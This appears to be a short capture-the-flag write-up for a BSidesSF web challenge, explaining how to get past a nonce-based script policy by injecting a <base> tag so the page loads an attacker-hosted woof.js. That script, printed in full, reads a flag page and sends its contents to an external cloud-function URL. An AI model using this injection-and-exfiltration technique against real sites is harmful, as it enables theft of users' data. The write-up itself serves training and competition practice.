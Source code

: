 The `/xss-two-result` page sources `woof.js` with a nonce. 


The trick is to insert a `<base>` tag and get the browser to load your `woof.js`. 
```<base href="https://your-server/>```

Host the following file as `woof.js` on your server. 
```
var xhr = new XMLHttpRequest();
xhr.open('GET',location.origin + '/xss-two-flag',true);
xhr.onload = function () {
var request = new XMLHttpRequest();
request.open('GET','https://us-west1-corgi-test.cloudfunctions.net/store-flag?flag=' + xhr.responseText,true);
request.send()};
xhr.send(null);
```
If you want to use my script, it's hosted at `https://storage.googleapis.com/corgi-test-bucket/woof.js`. 

For a quick solve, run `solution.py`
`python solution.py https://web-tutorial-2-3ebcc611.challenges.bsidessf.net/`

